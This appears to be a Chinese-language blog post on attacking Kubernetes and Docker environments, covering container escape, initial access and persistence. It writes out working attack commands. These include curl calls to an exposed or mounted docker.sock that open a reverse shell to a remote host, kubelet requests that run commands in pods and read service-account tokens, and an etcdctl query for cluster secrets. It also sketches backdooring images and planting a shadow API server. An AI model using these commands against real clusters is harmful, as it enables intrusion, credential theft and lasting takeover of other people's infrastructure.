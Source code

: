 ## 逃逸

### 挂载/var/log逃逸

利用条件

- 挂载了/var/log
- 容器是在一个 k8s 的环境中
- 当前 pod 的 serviceaccount 拥有 get|list|watch log 的权

```
kubectl exec -it escaper /bin/bash
```

检测当前环境是否存在漏洞

```
find / -name lastlog 2>/dev/null | wc -l | grep -q 3 && echo "/var/log is mounted." || echo "/var/log is not mounted."
```

![image-20240312212439573](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240312212439573.png)

创建软链接，访问宿主机文件

```
cd /var/log/host
ln -s / ./root_link
```

![image-20240312212630215](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240312212630215.png)

> 想要反弹shell需要对挂载目录具有可写权限

kubelet在node上启动一个文件服务器提供日志查询服务，目录为`/var/log`，查询api为`/logs`。

kubelet查询相应pod的日志，实际是访问`/var/log/`目录下对应容器目录下的`0.log`文件，该文件本质上是一个符号链接，目标日志文件在`/var/lib/docker/containers`目录下

kubelet查看日志文件支持文符号链接。如果容器内挂载了主机`/var/log`目录，可以通过在容器内创建符号链接到`/`,再利用`/logs`可以访问node主机上的任意文件，造成pod逃逸问题

### 利用Service Account连接API Server执行指令

高权限的serviceaccount可以连接apiserver来执行命令，如果获取到的pod使用高权限的service account,我们就可以连接api来执行命令

## 初期访问

### 云AK泄露

accesskey-可以理解为在集群当中进行鉴权使用

如果泄露了可以用来登录控制台，进行shell反弹的操作等

### API-server未授权

k8s集群通过API来进行集群的控制，API-Server则提供了这个功能，通过控制API-server，我们可以通过创建任意的pod进行卷挂载来拿下node.

api-server分为两个端口

8080 - insecure-port,开启这个端口时.api-server不需要鉴权，可以进行任意的访问

6443 - secure-port ,这个端口用于api-server的正常服务活动

8080端口利用条件较为苛刻，需要通过满足低版本和暴露端口，6443我们通常利用其配置错误

#### secure-port配置错误

当我们不使用凭证去访问api-server时，服务器会将我们标记为system:anonymous用户，这个用户的权限是非常低的，但当管理员出现配置错误，将该用户绑定到一个高权限用户组，就导致我们利用api-server

```yaml
#amin-bind.yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: custom-cluster-admin-binding
subjects:
- kind: User
  name: "system:anonymous"
  apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

![image-20240401173307234](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240401173307234.png)

### configfile泄露

k8s configfile配置文件中可能会有api-server登陆凭证等敏感信息

![image-20240402104305241](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240402104305241.png)

### 利用docker.sock

Docker daemon通过docker.sock这个文件去管理docker容器，Docker daemon也可以通过配置将docker.sock暴露在端口上，一般情况下2375端口用于未认证的HTTP通信，2376用于可信的HTTPS通信。

#### 公网暴露的docker daemon

```
server="Docker" && port="2375"
```

![image-20240402110025470](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240402110025470.png)

此后我们可以通过docker.sock来执行命令

```
curl -X POST "http://ip:2375/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'
```

#### 利用现成的docker.sock

通常是在容器中挂载了/var/run/docker.sock

利用这一点我们可以完成容器逃逸操作

```
curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'

curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/exec/{id}/start" -H "Content-Type: application/json" --data-binary "{}"
```

### kubelet未授权

kubectl位于master节点，在对node上的pod进行操作时，会先和node上的kubelet进行联系，再通过kubelet进行操作

kubelet对应的API端口默认在10250，运行在集群中每台Node上，kubelet 的配置文件在node上的/var/lib/kubelet/config.yaml

![image-20240402114235584](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240402114235584.png)

第一个参数代表是否允许匿名访问，第二参数则是用于访问控制

```
关于authorization-mode还有以下的配置
--authorization-mode=ABAC 基于属性的访问控制（ABAC）模式允许你 使用本地文件配置策略。
--authorization-mode=RBAC 基于角色的访问控制（RBAC）模式允许你使用 Kubernetes API 创建和存储策略。
--authorization-mode=Webhook WebHook 是一种 HTTP 回调模式，允许你使用远程 REST 端点管理鉴权。
--authorization-mode=Node 节点鉴权是一种特殊用途的鉴权模式，专门对 kubelet 发出的 API 请求执行鉴权。
--authorization-mode=AlwaysDeny 该标志阻止所有请求。仅将此标志用于测试。
--authorization-mode=AlwaysAllow 此标志允许所有请求。仅在你不需要 API 请求 的鉴权时才使用此标志。
```

将配置文件中，authentication-anonymous-enabled改为true，authorization-mode改为AlwaysAllow，再使用命令systemctl restart kubelet 重启kubelet，那么就可以实现kubelet未授权访问

![image-20240402115435300](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240402115435300.png)

+ 在pod内执行命令

  ```
  curl -XPOST -k https://node_ip:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=command"
  ```

+ 获取容器内service account凭据

  ```
  curl -XPOST -k https://node_ip:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=cat /var/run/secrets/kubernets.io/serviceaccount/token"
  ```

### etcd未授权

etcd是k8s中的数据库组件，用来存储集群中的token等资源，服务默认部署在2379端口，如果该端口存在未授权就可以通过etcd查询集群内管理员的token，然后用这个token访问api server接管集群。

需要注意的是k8s使用的etcd是v3版本

```
etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only | grep /secrets/
```

## 权限维持

权限维持和linux思路差不多，这里主要讲讲云上集群中特殊的维权方式

### 镜像投毒

接管对方的私有镜像库，并对其中的镜像添加恶意操作行为，例如对dockerfile添加shell连接的操作.或者编辑镜像的文件层代码，将镜像中原始的可执行文件或链接库文件替换为精心构造的后门文件之后再次打包成新的镜像。

### 修改组件的授权访问

修改组件的访问权限，例如api-server,etcd,kubelet等，将其改为未授权状态，可以达到集群持久化的目的

### shadow api server

部署一个额外的未授权且不记录日志的api server以供我们进行持久化。

[工具利用](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

## 参考链接

https://tttang.com/archive/1465/#toc_shadow-api-servercdk

